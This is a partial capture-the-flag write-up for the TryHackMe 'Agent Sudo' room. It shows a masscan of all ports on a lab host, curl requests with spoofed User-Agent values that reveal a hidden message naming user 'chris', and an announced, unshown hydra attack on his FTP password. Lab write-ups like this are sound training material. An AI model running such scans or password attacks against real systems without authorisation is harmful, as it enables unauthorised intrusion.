 https://tryhackme.com/room/agentsudoctf

## Task 1

no answer required

## Task 2

### How many open ports?

```
kali@kali:~/Downloads$ sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.164.129 --rate=1000
[sudo] password for kali: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-07-26 15:04:13 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 21/tcp on 10.10.164.129                                   
Discovered open port 80/tcp on 10.10.164.129                                   
Discovered open port 22/tcp on 10.10.164.129   
```
answer

```
3
```

### How you redirect yourself to a secret page?

we get this message after nagivating to the web page

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

user-agent is an option we can set using curl

```
kali@kali:~$ curl -A "R" -L 10.10.206.40
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
        <title>Annoucement</title>
</head>

<body>
<p>
        Dear agents,
        <br><br>
        Use your own <b>codename</b> as user-agent to access the site.
        <br><br>
        From,<br>
        Agent R
</p>
</body>
</html>
```

answer
```
user-agent
```

### What is the agent name?

we get this message when we set -A to "C"

```
kali@kali:~$ curl -A "C" -L 10.10.206.40
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

answer
```
chris
```

## Task 3

### FTP password

lets crack chris' FTP password using hydra

